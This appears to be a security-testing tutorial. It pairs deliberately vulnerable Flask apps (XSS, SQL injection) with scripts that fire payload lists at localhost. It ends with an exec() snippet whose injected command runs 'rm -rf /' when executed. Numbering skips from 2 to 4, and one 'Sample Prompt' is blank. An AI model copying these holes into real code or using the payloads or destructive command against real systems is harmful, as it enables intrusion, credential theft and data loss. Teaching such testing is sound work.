 Here are three specific examples of security vulnerabilities that can be tested for adversarially, along with sample code or instructions:

1. **Example: Cross-Site Scripting (XSS) Vulnerability**

   - **Description**: Test a web application for vulnerabilities related to Cross-Site Scripting, where an attacker injects malicious scripts into a webpage.
   - **Sample Prompt**: ```Write a simple Flask application that demonstrates cross-site scripting and a python script that tests that application for cross-site scripting vulnerabilities.```
   - **Test Code (Python with Flask)**:

   **vulnerable_app.py:**
   ```python
      from flask import Flask, request, render_template_string
      
      app = Flask(__name__)
      
      @app.route('/', methods=['GET', 'POST'])
      def index():
          name = request.args.get('name', 'Guest')
          template = f'''
          <h1>Welcome, {name}!</h1>
          <form action="/" method="get">
              <input type="text" name="name" placeholder="Enter your name">
              <input type="submit" value="Submit">
          </form>
          '''
          return render_template_string(template)
      
      if __name__ == '__main__':
          app.run(debug=True)
      ```
   This application is vulnerable to XSS because it directly includes user input in the template without any sanitization.
   
   **xss_tester.py:**
   ```python
   import requests
   
   def test_xss(url):
       payloads = [
           "<script>alert('XSS')</script>",
           "<img src=x onerror=alert('XSS')>",
           "<svg onload=alert('XSS')>",
           "javascript:alert('XSS')"
       ]
   
       for payload in payloads:
           response = requests.get(f"{url}?name={payload}")
           if payload in response.text:
               print(f"Potential XSS vulnerability found with payload: {payload}")
           else:
               print(f"No XSS vulnerability detected with payload: {payload}")
   
   if __name__ == '__main__':
       target_url = "http://localhost:5000"
       test_xss(target_url)
   ```
   The tester script will attempt to inject various XSS payloads and report whether they were successful or not.

2. **Example: SQL Injection Vulnerability**

   - **Description**: Test a web application for vulnerabilities related to SQL Injection, where an attacker manipulates input to execute malicious SQL queries.
   - **Sample Prompt**: ```Write a simple web application that demonstrates SQL Injection and a python script that tests that application for SQL Injection vulnerabilities.```
   - **Test Code (Python with Flask and SQLAlchemy)**:

   **app.py:**
   ```python
   from flask import Flask, request, render_template_string
   import sqlite3
   
   app = Flask(__name__)
   
   # Initialize the database
   def init_db():
       conn = sqlite3.connect('users.db')
       c = conn.cursor()
       c.execute('''CREATE TABLE IF NOT EXISTS users
                    (id INTEGER PRIMARY KEY, username TEXT, password TEXT)''')
       c.execute("INSERT OR IGNORE INTO users (id, username, password) VALUES (1, 'admin', 'secretpassword')")
       c.execute("INSERT OR IGNORE INTO users (id, username, password) VALUES (2, 'user', 'userpassword')")
       conn.commit()
       conn.close()
   
   init_db()
   
   @app.route('/', methods=['GET', 'POST'])
   def login():
       error = None
       if request.method == 'POST':
           username = request.form['username']
           password = request.form['password']
           
           # Vulnerable SQL query
           query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
           
           conn = sqlite3.connect('users.db')
           c = conn.cursor()
           c.execute(query)
           user = c.fetchone()
           conn.close()
           
           if user:
               return f"Welcome, {user[1]}!"
           else:
               error = "Invalid credentials"
       
       return render_template_string('''
           <h1>Login</h1>
           {% if error %}
           <p style="color: red;">{{ error }}</p>
           {% endif %}
           <form method="post">
               Username: <input type="text" name="username"><br>
               Password: <input type="password" name="password"><br>
               <input type="submit" value="Login">
           </form>
       ''', error=error)
   
   if __name__ == '__main__':
       app.run(debug=True)
   ```
   This application is vulnerable to SQL Injection because it directly incorporates user input into the SQL query without proper sanitization.

    **test_sql_injection.py:**
   ```python
   import requests
   
   def test_sql_injection(url):
       # Test cases
       payloads = [
           "' OR '1'='1",
           "' OR '1'='1' --",
           "' UNION SELECT 1, username, password FROM users --",
           "admin' --",
           "' OR 1=1 --",
       ]
   
       for payload in payloads:
           data = {
               'username': payload,
               'password': 'anything'
           }
           response = requests.post(url, data=data)
           
           print(f"Payload: {payload}")
           print(f"Response: {response.text}")
           print(f"Status Code: {response.status_code}")
           print("-" * 50)
   
           if "Welcome" in response.text:
               print("SQL Injection vulnerability detected!")
               return True
   
       print("No SQL Injection vulnerability detected.")
       return False
   
   if __name__ == "__main__":
       url = "http://localhost:5000"  # Change this to the URL of your Flask app
       test_sql_injection(url)
   ```
   The testing script will attempt various SQL Injection payloads and report if any vulnerabilities are detected.

4. **Example: Remote Code Execution (RCE) Vulnerability**

   - **Description**: Test a system for vulnerabilities related to Remote Code Execution, where an attacker can execute arbitrary code on a server.
   - **Sample Prompt**: 
   - **Test Code (Python)**:

   ```python
   # Example vulnerable code
   def process_user_input(input_data):
       exec(input_data)

   # Injected malicious code by an attacker
   malicious_code = "__import__('os').system('rm -rf /')"
   process_user_input(malicious_code)
   ```

   In this example, an attacker injects code that could potentially have destructive effects. This can be tested by injecting the malicious code and observing if it executes on the server.

It's important to note that these examples demonstrate how vulnerabilities can be exploited adversarially. In practice, identifying and mitigating such vulnerabilities is critical to ensuring the security of applications and systems. Security testing should be conducted responsibly and with proper authorization.
